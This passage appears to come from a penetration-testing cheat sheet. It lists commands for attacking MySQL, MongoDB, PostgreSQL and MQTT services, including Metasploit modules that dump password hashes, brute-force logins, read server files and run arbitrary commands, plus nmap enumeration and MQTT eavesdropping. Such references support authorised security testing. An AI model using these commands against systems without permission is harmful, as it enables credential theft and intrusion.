 ```
```
Extract credentials from mysql server with metasploit
```
use auxiliary/scanner/mysql/mysql_hashdump
```
Enumerate mysql server with nmap
```
nmap -p3306 --script mysql-enum
```

### Mongodb
Connecting to the mongodb service
```
mongo 10.0.0.1 -u admin -p
```
Commands for MongoDB server
```
show dbs
use [db]
show collections
db.[collection].find()
```

### Postgresql
Enumerate login credentials with metasploit
```
auxiliary/scanner/postgres/postgres_login
```
Execute commands on sql server with metasploit
```
auxiliary/admin/postgres/postgres_sql
```
Dump user hash with metasploit
```
auxiliary/scanner/postgres/postgres_hashdump
```
Read files on sql server with authenticate credentials using metasploit
```
auxiliary/admin/postgres/postgres_readfile
```
Arbitrary comman execution with metasploit
```
exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

### MQTT
#### MQTT is a protocol mainly used by IOT devices
Subscribe to a topic
```
mosquitto_sub -t 'topic-name/#' -h ip -p 1883 -V mqttv31 --tls-version tlsv1.2
```
Listens to all published models except "$SYS"
```
mosquitto_sub -h ip -p 1883 -t "#"
```
Listens to "$SYS" published models
```
mosquitto_sub -h ip -p 1883 -t "$SYS"
```

